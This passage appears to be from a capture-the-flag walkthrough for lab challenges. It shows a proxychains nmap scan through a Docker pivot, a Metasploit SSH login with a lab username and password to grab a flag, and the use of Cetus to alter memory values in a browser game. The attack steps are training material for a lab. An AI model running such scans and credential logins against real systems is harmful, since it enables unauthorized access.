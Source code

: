 ![image](https://user-images.githubusercontent.com/90561566/206839549-64059aea-be38-444c-ab6f-f9da523b2996.png)

now you can use proxy through

```
proxychains nmap -n -sT -Pn -p 22,80,443,5432 172.17.0.1
```

![image](https://user-images.githubusercontent.com/90561566/206839554-7ee40680-c4dd-49d0-8de1-8431fa20d1d6.png)

SSH into the host machine from the Docker container

```
use auxiliary/scanner/ssh/ssh_login
set username santa
set password p4$$w0rd
set rhosts 172.17.0.1
run
```

now interact with opened session to grab flag

![image](https://user-images.githubusercontent.com/90561566/206840056-96f5cd4d-5e12-43f3-a8bf-6053b31c7752.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/206840820-1d4b507f-fefa-495d-ae4e-c37dc1053558.png)

![image](https://user-images.githubusercontent.com/90561566/206840829-9634a7c4-c544-4e1a-a526-92f18f2fd401.png)

## Day 10: You're a mean one, Mr. Yeti

open a game at https://10.10.12.38:443

![image](https://user-images.githubusercontent.com/90561566/206893338-e7e236eb-3d73-435e-993b-f95b2634a6b2.png)

turn right and meet the guard near the door, he requires you to quess a number

![image](https://user-images.githubusercontent.com/90561566/206893407-23ead003-1731-4b1c-b031-872dcae0d8c2.png)

enter anything you want, he will show his first number, use it on cetus

![image](https://user-images.githubusercontent.com/90561566/206893584-93ff3eac-7c4a-48b7-9480-d2d79b2d9fe9.png)

bookmark it, talk to the guard again and answer with the new number (convert it to decimal before)

![image](https://user-images.githubusercontent.com/90561566/206893681-915060f7-42c6-4c56-8749-3006b08699b5.png)

you can change it to other number before answering (0 for easiest)

![image](https://user-images.githubusercontent.com/90561566/206894039-2dba8e8e-3983-40f3-9c47-97e70aea0003.png)

go ahead, it's a big challenge for you

![image](https://user-images.githubusercontent.com/90561566/206893782-02e62d34-75ae-4c25-a146-4faa13afdf7b.png)
